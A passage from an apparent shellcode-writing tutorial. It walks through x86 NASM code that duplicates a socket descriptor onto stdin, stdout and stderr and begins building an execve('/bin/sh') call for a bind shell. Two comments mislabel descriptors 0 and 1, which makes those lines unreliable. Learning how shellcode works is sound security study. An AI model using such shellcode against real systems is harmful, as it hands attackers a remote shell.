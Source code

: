 ```nasm
; Direct Connection Socket Output
; int dup2(int oldfd, int newfd);
; dup2(connfd, 0);
mov ecx, edx        ; 0 = STDOUT
mov ebx, eax        ; store int connfd in ebx
mov al, 0x3f        ; dup2
int 0x80
; dup2(connfd, 1);
inc cl              ; 1 = STDIN
mov al, 0x3f        ; dup2
int 0x80
; dup2(connfd, 2);
inc cl              ; 2 = STDERROR
mov al, 0x3f        ; dup2
int 0x80
```

For the first call to `dup2`, the value of `0` is stored in the `ECX` register which will be passed to `dup2` as its second argument. Next, the `connfd` file descriptor stored in `EAX` as returned via `accept` is moved to `EBX` to be passed as the first argument to `dup2`. Then, the value `0x3f` which is the hexadecimal equivalent of the decimal representation of the system call number for `dup2` is moved into `AL` before the function is called via `INT 0x80`.

This general process is repeated two more times passing the values of `1` and `2` to the function's second argument each successive time. Note that the `connfd` file descriptor remains in `EBX` throughout, and therefore the `MOV EBX, EAX` instruction is only required once. 

#### Execve System Call
The final step is a system call to `execve` in order to execute `/bin/sh`. From `unistd_32.h` the system call number for `execve` is decimal `11`.

```shell
#define __NR_execve 11
```

The `execve` system call expects three arguments which were explained during the analysis of the C program that will be passed via the `EBX`, `ECX`, and `EDX` registers in the code below.

```nasm
; Execute Program
; int execve(const char *pathname, char *const argv[], char *const envp[]);
; execve("/bin/sh", NULL, NULL);
push edx            ; delimiting NULL for pathname
push 0x68732f2f     ; //sh
push 0x6e69622f     ; /bin
mov ebx, esp        ; pointer to pathname
```

To prepare the three arguments for `execve`, the `/bin/sh` string is first stored on the stack using `PUSH` instructions. The first `PUSH` shown in the code above serves to `NULL` terminate the `/bin/sh` string. Next, the `/bin/sh` string itself is pushed to the stack. At this point, `ESP` stores the memory address of where the string is stored, and hence this memory address is moved to `EBX` which will be passed as the first argument for `execve`.
